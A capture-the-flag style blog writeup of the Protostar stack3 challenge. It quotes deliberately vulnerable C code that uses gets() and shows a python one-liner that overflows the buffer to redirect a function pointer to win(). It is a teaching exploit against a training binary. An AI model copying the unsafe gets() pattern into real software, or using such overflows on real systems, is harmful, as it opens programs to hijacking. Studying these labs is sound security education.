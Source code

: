 ```yaml
---
layout: post
title: "Protostar stack03 writeup"
tags: [protostar]
comments: false
---
```


We are given a source code for this challenge.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
Similar idea from the other challenges but this one you have to overwrite the win() function's address after the overflow

First we need to find the address of win() you can do that with objdump -t
```
root@protostar:/opt/protostar/bin# (python -c 'print "A"*64+"\x24\x84\x04\x08"') | ./stack3
calling function pointer, jumping to 0x08048424
```

Then overflow with "A"*64+"\x24\x84\x04\x08"
```
root@protostar:/opt/protostar/bin# (python -c 'print "A"*64+"\x24\x84\x04\x08"') | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
